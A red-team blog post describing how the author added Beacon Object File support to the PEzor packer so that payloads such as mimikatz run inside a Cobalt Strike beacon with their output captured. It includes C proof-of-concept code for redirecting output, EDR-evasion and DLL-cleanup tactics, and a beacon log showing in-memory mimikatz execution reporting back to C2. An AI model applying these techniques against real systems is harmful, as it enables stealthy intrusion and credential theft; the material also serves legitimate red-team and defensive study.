



_**Jul 08, 2021**_

# Process Creation is Dead, Long Live Process Creation — Adding BOFs Support to PEzor

Since the release of Beacon Object Files (BOFs), I wanted to support them as a new kind of output format in PEzor.
The main challenge was to find out a reliable technique in order to reflectively execute arbitrary, unmodified payloads and capture their output.
After a short research, I was able to develop a working template to execute shellcode within the beacon process and capture the output in order to send it out to our C2 instance, effectively implementing a reflective execution first workflow for post exploitation jobs.
Let's dive into this short journey!



## The Origins

In the beginning, on NT systems, operators and actors were used to touch the file system for any post exploitation action they were tooking and, at that time, antivirus products were mostly based on signatures of disk artifacts to look for.
Thanks to following research about reflecting loading and executing DLLs in memory by [Stephen Fewer](https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf), that was documenting in an open-source fashion the process, the mainstream scenario shifted from uploading artifacts on disk to remotely inject payloads in secondary processes.



Historically, popular command and control frameworks, such as Metasploit and Cobalt Strike, greatly relied on the fork-and-run paradigm as execution technique of choice to run post exploitation modules on compromised hosts.
The flow of this technique is:

1. configure the [STARTUPINFOA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa) struct in order to redirect standard output and error to named pipes
2. spawn a separate, secondary process
3. inject the capability into the new process
4. create a remote thread to execute the payload
5. read from the named pipes the output of the process

The OPSEC implication of this technique is that each time we need to execute a post exploitation capability, we first need to spawn another process to inject the payload in.
In current days, this may not be suitable for advanced, red team operations, in particular when fighting against next-generation EDR/XDR.


## The Idea

Inspired by the [Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blame/d943001a7defb5e0d1657085a77a0e78609be58f/CodeExecution/Invoke-ReflectivePEInjection.ps1) cmdlet, I started to investigate how to implement a similar technique within Cobalt Strike.
As stated in the [notes](https://github.com/PowerShellMafia/PowerSploit/blame/d943001a7defb5e0d1657085a77a0e78609be58f/CodeExecution/Invoke-ReflectivePEInjection.ps1#L101) of the source code, the cmdlet is only partially able to retrieve the payload output: in particular, the `PowerShell` process is not able to capture the output, but, if run locally, it will be sent to the console host process, meaning that we will be able to see the output without issues.
However, the situation is quite different when the reflective execution happens remotely: the cmdlet won't be able to retrieve the output of executables and DDLs have to be modified to return a string allocated on the heap in order to be processed by the caller. (e.g. [Powerkatz](https://github.com/gentilkiwi/mimikatz/blob/e10bde5b16b747dc09ca5146f93f2beaf74dd17a/mimikatz/mimikatz.h#L56))
I wanted to find a general solution that didn't required manual changes to payloads in order to capture their output when run remotely: what if we would be able to entirely redirect the file descriptors baking the stdout/stderr of the process when executing arbitrary shellcode in a new thread inside the beacon process in order to reliably capture its output?
I experimented with the Windows APIs in order to find out if this was technically feasible.
The idea I had was based on the fact the file descriptors can be redirected to arbitrary handles, such as an anonymous pipe.
So what happen if we redirect the `stdout` and `stderr` to anonymous pipes, we allocated an executable are of memory, we copied the position indipendent code generated by [Donut](https://github.com/TheWover/donut), we create a thread and then we read from the other sides of the pipes?
By using the following snippet of code, I was able to confirm the initial intuition and successfully capture the "Hello World!" string.

```c
// TestRedirStdout.cpp : This file contains the 'main' function. Program execution begins and ends there.
//

#include <io.h>
#include <stdio.h>
#include <fcntl.h>
#include <windows.h>
#include <synchapi.h>

#define BUFFER_SIZE 1024
#define _WAIT_TIMEOUT 5000

BOOL create_pipe(HANDLE* pipeRead, HANDLE* pipeWrite) {
    SECURITY_ATTRIBUTES sa = { sizeof(sa),NULL,TRUE };
    return CreatePipe(pipeRead, pipeWrite, &sa, 0);
}

void redirect_io(FILE* hFrom, HANDLE hTo) {
    int fd = _open_osfhandle((intptr_t)hTo, _O_TEXT);
    _dup2(fd, _fileno(hFrom));
    setvbuf(hFrom, NULL, _IONBF, 0); //Disable buffering.
}

void restore_io(int stdoutFd, int stderrFd) {
    _dup2(stdoutFd, _fileno(stdout));
    _dup2(stderrFd, _fileno(stderr));
}

DWORD WINAPI hello_world(LPVOID lpParam) {
    puts("Hello World!\n");
    perror("Welp\n");
    for (int i = 0; i < 1024; i++) {
        printf("%d - ", i);
    }

    return 0;
}

int main() {
    HANDLE stdoutHandle = INVALID_HANDLE_VALUE;
    HANDLE stderrHandle = INVALID_HANDLE_VALUE;
    HANDLE pipeRead = INVALID_HANDLE_VALUE;
    HANDLE pipeWrite = INVALID_HANDLE_VALUE;
    int stdoutFd = -1;
    int stderrFd = -1;
    int readResult = -1;
    DWORD waitResult = -1;
    BOOL isThreadFinished = FALSE;
    unsigned char recvBuffer[BUFFER_SIZE];
    DWORD bytesRead = 0;
    DWORD remainingData = 0;

    stdoutHandle = GetStdHandle(STD_OUTPUT_HANDLE);
    stderrHandle = GetStdHandle(STD_ERROR_HANDLE);
    stdoutFd = _dup(_fileno(stdout));
    stderrFd = _dup(_fileno(stderr));
    puts("Before redir\n");
    create_pipe(&pipeRead, &pipeWrite);
    redirect_io(stdout, pipeWrite);
    redirect_io(stderr, pipeWrite); // comment this line to debug
    DWORD dwThreadId = -1;
    HANDLE hThread = CreateThread(
        NULL,           // default security attributes
        0,              // use default stack size
        hello_world,    // thread function name
        NULL,           // argument to thread function
        0,              // use default creation flags
        &dwThreadId);   // returns the thread identifier

    do {
        waitResult = WaitForSingleObject(hThread, _WAIT_TIMEOUT);

        switch (waitResult) {
        case WAIT_ABANDONED:
            restore_io(stdoutFd, stderrFd);
            perror("WAIT_ABANDONED\n");
            return -1;
        case WAIT_FAILED:
            restore_io(stdoutFd, stderrFd);
            perror("WAIT_FAILED\n");
            return -1;
        case _WAIT_TIMEOUT:
            break;
        case WAIT_OBJECT_0:
            isThreadFinished = TRUE;
        }

        PeekNamedPipe(pipeRead, NULL, 0, NULL, &remainingData, NULL);
        //fprintf(stderr, "[DEBUG] remainingData = %d\n", remainingData);
        if (remainingData) {
            SetLastError(0);
            memset(recvBuffer, 0, BUFFER_SIZE);
            bytesRead = 0;
            readResult = ReadFile(
                pipeRead,        // pipe handle
                recvBuffer,      // buffer to receive reply
                BUFFER_SIZE - 1, // size of buffer
                &bytesRead,      // number of bytes read
                NULL);           // not overlapped

            if (!readResult) {
                restore_io(stdoutFd, stderrFd);
                printf("ERROR ReadFile: %d, GLE=%d\n", readResult, GetLastError());
                return -1;
            }

            recvBuffer[BUFFER_SIZE - 1] = '\0';
            //perror("[DEBUG] Received by pipe:\n");
            //perror(recvBuffer);
        }
    } while (!isThreadFinished || remainingData);

    restore_io(stdoutFd, stderrFd);
    perror("[DEBUG] Received last by pipe:\n");
    perror(recvBuffer);
    return 0;
}
```

## Integration with PEzor

After having a working proof of concept of the template skeleton, what it was remaining to do was to convert it into the specific syntax required by Beacon Object Files [Dynamic Function Resolution](https://www.cobaltstrike.com/help-beacon-object-files) to make it compatible with the brand-new, built-in inline loader baked into the beacon.
In particular, we need to concatenate the various files into a single one in order to produce a single object file (FYI i tried using `ld -r` to merge multiple object files but without success) and declare the imported functions using the DFR syntax.
At this point, we should have the ability to convert anything supported by [Donut](https://github.com/TheWover/donut) into a single object file compatible with the inline loader and capture its output, which we can send back to our server using the [BeaconPrintf](https://www.cobaltstrike.com/help-beacon-object-files) function.
As expected, everything works correctly but there few main downsides to this approach:

1. if the object file or the payload is bugged, we will make the entire beacon process crash, potentially losing control over the compromised host
2. if we don't restore back the original file descriptors, we will potentially break the application hosting our beacon, e.g. in case of a PowerShell process, after the payload is executed, we won't be able to type and retrieve output in the console anymore due to the redirected handles
3. if the hosting process doesn't have a console window associated, we won't be able to redirect its handles correctly
4. as soon we will start to execute multiple payloads, more and more DLLs will be loaded into the beacon process, potentially flagging it as suspicious

How can we tackle the mentioned drawbacks? For instance, we can follow this approach:

1. regarding the stability of the beacon process, we can simply apply the popular "if you have one shell, you have zero shells" rule and use two different processes: one as an idle, backup connection and another one where to execute our payloads in. In this way, if the beacon crashes, we can spawn another one from the backup and continue with it
2. to restore the input/output functionality of the hosting process, we need to restore the original handles after the payload execution is complete
3. if no console was allocated, we need to create one and associate it to our descriptors
4. for the last issue, we need to perform a clean up of the loaded DLLs but in order to do that we need to enumerate loaded modules before and after the payload execution and call [FreeLibrary](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-freelibrary) to release them. (Currently, the clean up routine try to free modules calling `FreeLibrary` once and if the payload is calling multiple times [LoadLibraryW](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryw) those modules will remain loaded. Additionally any modules loaded via the DFR syntax by the template will remain loaded to not alter the internal state of the inline loader.)

## Result



Let's try to execute the updated `execute-inmemory` command:

```
beacon> execute-inmemory -format=bof -cleanup /root/git/PEzor/mimikatz/x64/mimikatz.exe -z 2 -p '"answer" "coffee" "exit"'
[*] Tasked beacon to execute in-memory /root/git/PEzor/mimikatz/x64/mimikatz.exe with args: "answer" "coffee" "exit"
[+] PEzor generated Beacon Object File /tmp/5e926f6b-696b-411e-a3a8-ef3ef8a87f49_root_git_PEzor_mimikatz_x64_mimikatz.exe.packed.x64.o
[*] Tasked beacon to inline-execute /tmp/5e926f6b-696b-411e-a3a8-ef3ef8a87f49_root_git_PEzor_mimikatz_x64_mimikatz.exe.packed.x64.o
[+] host called home, sent: 649508 bytes
[+] received output:
[PEzor] starting BOF...
[+] received output:

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun 22 2021 22:01:20
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/


mimikatz(commandline) # answer
42.

mimikatz(commandline) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz(commandline) # exit
Bye!

[+] received output:
[PEzor] cleanup complete
[+] received output:
[PEzor] payload freed
```

As always, you can find the source code in the [PEzor](https://github.com/phra/PEzor) repository.

[back](../)

